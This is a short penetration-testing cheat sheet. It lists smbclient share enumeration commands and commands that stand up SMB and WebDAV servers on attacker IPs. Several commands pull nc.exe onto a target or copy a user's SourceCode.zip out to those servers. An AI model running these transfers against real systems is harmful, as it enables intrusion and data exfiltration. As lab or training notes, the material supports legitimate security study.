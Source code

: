 #### Shares
```smb
smbclient -N -L \\\\<IP>
```

```smb
smbclient \\\\<IP>\\users
```

```smb
smbclient -U <user> \\\\<IP>\\users
```

```smb
smbclient -U <user> \\\\<IP>\\<sharename>
```
## SMB Downloads
#### Create the SMB Server
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
#### Copy a File from the SMB Server
```cmd
copy \\192.168.220.133\share\nc.exe
```
#### Create the SMB Server with a Username and Password
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
#### Mount the SMB Server with Username and Password
```cmd
net use n: \\192.168.220.133\share /user:test test
```
```
copy \\192.168.220.133\share\nc.exe
```
## SMB Uploads
### WebDav
```shell
sudo pip3 install wsgidav cheroot
```
#### WebDav Python
```shell
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
#### Webdav Share
```cmd
dir \\192.168.49.128\DavWWWRoot
```
#### Uploading Files using SMB
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

